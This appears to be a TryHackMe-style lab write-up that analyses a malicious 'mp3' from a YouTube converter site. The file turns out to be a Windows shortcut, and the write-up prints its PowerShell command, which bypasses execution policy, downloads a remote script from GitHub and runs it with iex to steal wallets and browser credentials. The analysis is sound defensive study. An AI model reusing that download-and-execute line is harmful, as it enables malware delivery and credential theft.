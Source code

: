**Youtube to mp3 converter websites**

These websites have been around for a long time. They offer a convenient way to extract audio from YouTube videos, making them popular. However, historically, these websites have been observed to have significant risks, such as:

- **Malvertising**: Many sites contain malicious ads that can exploit vulnerabilities in a user's system, which could lead to infection.
- **Phishing scams**: Users can be tricked into providing personal or sensitive information via fake surveys or offers.
- **Bundled malware**: Some converters may come with malware, tricking users into unknowingly running it.

![youtube converter website](https://github.com/user-attachments/assets/c8d4b379-b361-4201-ba13-5f7494f0e9d1)

Anything that says super secured, don’t trust it 😀

![screenshot2](https://github.com/user-attachments/assets/9ef88c08-65ba-4a4b-9f6d-4db0fbbaf3e3)


1. Converted a youtube url and downloaded it
2. Came in a download.zip (which shouldn’t be the case if it’s just downloading a mp3 file)
3. Extracted 2 mp3 files (somg.mp3 and song.mp3) 

1. Determine file contents `file <file name>`

![screenshot3](https://github.com/user-attachments/assets/555f146d-5ece-4c0e-a75d-358c1ea0685a)
    
song.mp3 output seems normal

somg.mp3 output seems to have a MS Windows shortcut (.lnk) file.

1. Inspect somg.mp3 file `exiftool <file name>`
    
![screenshot4_1](https://github.com/user-attachments/assets/553584bf-ac63-4838-b254-60fcba0357f3)


```jsx
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('[https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\\ProgramData\\s.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:%5C%5CProgramData%5C%5Cs.ps1)'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

`-ep Bypass -nop` flags disable PowerShells’s usual restrictions, allowing scripts to run without interference from security settings or user profiles

`DownloadFile` method pulls a file (`IS.ps1` ) from a remote server in github and saves to `C:\\ProgramData\\` directory on the target machine

Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

![code_1](https://github.com/user-attachments/assets/a5c6cc90-9998-4494-8879-a26c3a2f3f37)


This script is designed to collect highly sensitive information from the victim’s system, such as cryptocurrency wallets and saved browswer credentials and send it to an attacker’s remote server

1. A giveaway “Created by the one and only M.M.” which potentially reveals identity
    
![github](https://github.com/user-attachments/assets/4d563b64-db17-4b1a-986c-bdefcf0c8cb5)

![identity](https://github.com/user-attachments/assets/9473dddf-095c-4520-b331-5cc7e04fe509)
  

A check on github reveals the name and location
